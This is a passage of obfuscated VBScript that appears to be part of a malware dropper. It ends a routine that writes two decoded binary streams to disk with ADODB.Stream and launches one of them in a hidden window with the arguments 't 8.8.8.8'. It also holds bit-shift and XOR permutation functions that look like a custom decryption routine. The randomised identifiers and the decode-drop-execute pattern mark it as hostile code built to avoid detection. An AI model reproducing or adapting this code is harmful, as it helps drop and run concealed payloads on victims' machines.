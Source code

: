 ```vb
    s4fr2y4Q7lvQ = Xk7fbp8v(JozMh9jg)
    Dim cHh5wARUext
    Set cHh5wARUext = CreateObject("ADODB.Stream")
    cHh5wARUext.Type = 1
    cHh5wARUext.Open
    cHh5wARUext.Write AnZUOdqFuMEw
    cHh5wARUext.SaveToFile gwqhhV, 2
    Dim BKzG1ldRw7
    Set BKzG1ldRw7 = CreateObject("ADODB.Stream")
    BKzG1ldRw7.Type = 1
    BKzG1ldRw7.Open
    BKzG1ldRw7.Write s4fr2y4Q7lvQ
    BKzG1ldRw7.SaveToFile JJNe, 2
    AgUvcCuHzzbl.run """" & gwqhhV & """ t 8.8.8.8, 0, False"
End Function

Public Function i9Vu0(ByVal Value, ByVal Shift)
    i9Vu0 = Value
    If Shift > 0 Then
        If Value > 0 Then
            i9Vu0 = Int(i9Vu0 / (2 ^ Shift))
        Else
            If Shift > 31 Then
                i9Vu0 = 0
            Else
                i9Vu0 = i9Vu0 And &H7FFFFFFF
                i9Vu0 = Int(i9Vu0 / (2 ^ Shift))
                i9Vu0 = i9Vu0 Or 2 ^ (31 - Shift)
            End If
        End If
    End If
End Function

Public Function PIvwo4QDjBC(ByVal Value, ByVal Shift)
    PIvwo4QDjBC = Value
    If Shift > 0 Then
        Dim i, m
        For i = 1 To Shift
            m = PIvwo4QDjBC And &H40000000
            PIvwo4QDjBC = (PIvwo4QDjBC And &H3FFFFFFF) * 2
            If m <> 0 Then
                PIvwo4QDjBC = PIvwo4QDjBC Or &H80000000
            End If
        Next
    End If
End Function

Public Function eUBp1LoLYEMy(ByVal num)
    Const rkLx = 5570645
    Const beweT2U = 52428
    Const d1 = 7
    Const d2 = 14
    Dim t, u, out
    t = (num Xor i9Vu0(num, d2)) And beweT2U
    u = num Xor t Xor PIvwo4QDjBC(t, d2)
    t = (u Xor i9Vu0(u, d1)) And rkLx
    out = (u Xor t Xor PIvwo4QDjBC(t, d1))
    eUBp1LoLYEMy = out
End Function

Public Function FTKaWvcYaGWt(ByRef MiCzi9())
    Dim i, fr, upJNNa, raw
    Dim a, b, c, d
```